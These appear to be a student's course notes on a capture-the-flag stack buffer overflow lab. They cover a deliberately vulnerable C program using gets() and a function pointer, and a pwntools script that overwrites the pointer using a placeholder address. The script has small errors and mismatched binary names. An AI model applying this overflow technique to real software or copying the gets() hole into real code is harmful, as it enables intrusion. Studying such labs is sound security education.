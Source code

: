 #CS4401 #pwntools 
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void recalibration(){
	char buffer[64];
	FILE *fp;  

	printf("Code flow successfully changed, navigation recalibrated.\n");
	printf("New dwarf planet detected! Recommend course correction...\n");

	fp = fopen("./flag.txt", "r");
	fgets(buffer, 64, (FILE*)fp);
	printf("flag: %s\n", buffer );
	exit(0);
}

int main(int argc, char **argv){
	volatile int (*fp)();
	char buffer[{{buffsize}}];  

	fp = 0;// initally set to 0

	gets(buffer);

	//checks if the function pointer is not NULL
	if(fp) {
		printf("Calling function pointer, jumping to %p\n", fp);
		//calling the function pointer
		fp();
	}

}
```
##### The Bug
- `gets()` can clobber any memory nearby if it reads in too many characters
##### The Goal
- Buffer Overflow to set `fp()` to the function pointer/address of `recalibration()`
- What is a function pointer: an address that points to the start of instructions associated with a particular function in the text section of a process

1. Addresses are different before execution. Why?
	1. PIE is enabled: Position Independant Execution
	3. When we disas before running the program, we get really small addresses
	4. Run the program and set a breakpoint, then disassemble and look at the values of the addresses

### Process of Solving
1. Open GDB to find the address of `recalibration()`
	1. Make sure to use the address when the program is being run!
```python
from pwn import *

elf = ELF('./stack0-64')
context.binary=elf
context.log_level = 'debug'

#opens in gdb
p = gdb.debug('./stack2-64', gdbscript'''
				break main
				shell tmux select-layout main-vertical
				shell tmux swap-pane -U
				continue
				''')
#p.sendline(cyclic(300, n=8))
#n: length of cyclic units. Defult is 4.
#8 to account for the 64-bit architecture.

exploit_str = flat({56:0xdeadbeef})
expl_str = flat({56:0xbeef})
#these strings will be the same length, flat will implicity class pack
#and 0xbeef = 0x0000beef


#flat: pack hex and turn it into a string, include an offset (automatically includes padding!!)
p.sendline(exploit_str)

p.recvall() #gets all data
p.wait() #wait until process is finished
```

### `flat()`
- pass in a dictionary with an offset and an integer (usually hex)
- offset will automatically produce padding of that amount before the function pointer